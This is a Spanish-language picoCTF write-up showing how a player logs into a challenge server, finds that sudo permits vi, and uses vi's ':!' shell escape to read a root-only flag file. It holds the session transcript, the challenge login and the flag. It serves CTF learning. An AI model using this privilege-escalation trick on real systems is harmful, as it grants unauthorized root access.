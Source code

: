 #notas_hacking
# Reto
## Descripción
Can you read files in the root file?
Additional details will be available after launching your challenge instance.
The system admin has provisioned an account for you on the main server:`ssh -p 58407 picoplayer@saturn.picoctf.net`Password: `j4ks-9nxB-`Can you login and read the root file?
## Solución
```bash
SergioMXZ-picoctf@webshell:~$ ssh -p 63014 picoplayer@saturn.picoctf.net
...
picoplayer@challenge:~$ ls
picoplayer@challenge:~$ ls -al
total 12
drwxr-xr-x 1 picoplayer picoplayer   20 Sep 15 04:51 .
drwxr-xr-x 1 root       root         24 Aug  4  2023 ..
-rw-r--r-- 1 picoplayer picoplayer  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoplayer picoplayer 3771 Feb 25  2020 .bashrc
drwx------ 2 picoplayer picoplayer   34 Sep 15 04:51 .cache
-rw-r--r-- 1 picoplayer picoplayer  807 Feb 25  2020 .profile
picoplayer@challenge:~$ ls /
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
picoplayer@challenge:~$ ls /root
ls: cannot open directory '/root': Permission denied
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi

picoCTF{uS1ng_v1m_3dit0r_021d10ab}
```
nos conectamos y parece ser que es una maquina de corre ubuntu, después de un ls nos damos cuenta que no hay archivos y los ocultos no parecen tener nada interesante, como dice el problema, mostramos que hay en /, y parece que no podemos acceder a nada, entonces vemos los permisos que tenemos, y solo se puede usar vi, que es un editor de texto, entonces entramos a vi pero como sudo, y dentro escribimos :! ls -la /root, con lo que que nos aparece un archivo oculto llamado .flag.txt, volvemos a vi y ejecutamos ahora :! cat /root/.flag.txt
## Notas
sudo -l - te muestra los permisos que tienes
sudo vi - ejecuta vi como super usuario
vi - vim editor de texto
## Referencias

